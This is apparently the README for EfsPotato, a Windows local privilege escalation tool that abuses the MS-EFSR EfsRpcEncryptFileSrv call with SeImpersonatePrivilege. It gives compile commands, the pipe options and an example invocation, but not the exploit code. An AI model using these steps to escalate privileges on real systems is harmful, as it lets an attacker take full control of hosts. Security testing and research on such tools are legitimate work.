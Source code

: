 ## EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation).

### build
	#for 4.x
	csc.exe EfsPotato.cs -nowarn:1691,618
	csc /platform:x86 EfsPotato.cs -nowarn:1691,618
	
	#for 2.0/3.5
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe EfsPotato.cs -nowarn:1691,618
	C:\Windows\Microsoft.Net\Framework\V3.5\csc.exe /platform:x86 EfsPotato.cs -nowarn:1691,618

### usage

	usage: EfsPotato <cmd> [pipe]
  	  pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)

 
### ex.

	EfsPotato.exe "whoami"
